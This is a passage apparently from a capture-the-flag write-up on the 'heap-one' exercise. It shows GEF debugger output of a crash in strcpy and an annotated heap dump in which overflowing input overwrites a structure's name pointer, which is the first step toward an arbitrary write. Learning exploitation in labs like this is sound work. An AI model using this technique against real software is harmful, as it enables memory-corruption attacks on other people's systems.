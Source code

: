 ```c
$edi   : 0x3
$eip   : 0xf7f840db  →  <stpcpy+59> mov BYTE PTR [eax], cl
$eflags: [carry parity adjust zero sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd6a4│+0x0000: 0xf7ffb000  →  0x0008dedc	 ← $esp
0xffffd6a8│+0x0004: 0x42424242
0xffffd6ac│+0x0008: 0xf7f8453e  →  <strcpy+30> add esp, 0x14
0xffffd6b0│+0x000c: 0x42424242
0xffffd6b4│+0x0010: 0xffffd8db  →  "CCCCDDDD"
0xffffd6b8│+0x0014: 0x00000008
0xffffd6bc│+0x0018: 0x00000008
0xffffd6c0│+0x001c: 0xf7f84527  →  <strcpy+7> add ebx, 0x76ad9
─────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0xf7f840d3 <stpcpy+51>      add    eax, 0x1
   0xf7f840d6 <stpcpy+54>      movzx  ecx, BYTE PTR [edx]
   0xf7f840d9 <stpcpy+57>      test   cl, cl
 → 0xf7f840db <stpcpy+59>      mov    BYTE PTR [eax], cl
   0xf7f840dd <stpcpy+61>      jne    0xf7f840d0 <stpcpy+48>
   0xf7f840df <stpcpy+63>      pop    ebx
   0xf7f840e0 <stpcpy+64>      pop    esi
   0xf7f840e1 <stpcpy+65>      ret
   0xf7f840e2 <stpcpy+66>      lea    esi, [esi+0x0]
─────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "heap-one", stopped, reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xf7f840db → stpcpy()
[#1] 0xf7f8453e → strcpy()
────────────────────────────────────────────────────────────────────────────────────────────────────
```

Now lets view our heap values,

```c
(gdb) x/20w 0xf7e69008
v2->priority -----          ----- address for i2->name to write
                 ↓          ↓
0xf7e69008:	0x00000001	0xf7e69018	0x00000000	0x00000011
0xf7e69018:	0x41414141	0x41414141	0x41414141	0x41414141

(overwritten)               (overwritten)
v2->priority -----          ----- address for i2->name to write
                 ↓          ↓
0xf7e69028:	0x41414141	0x42424242	0x00000000	0x00000011
0xf7e69038:	0x00000000	0x00000000	0x00000000	0x000fffc1
0xf7e69048:	0x00000000	0x00000000	0x00000000	0x00000000
```
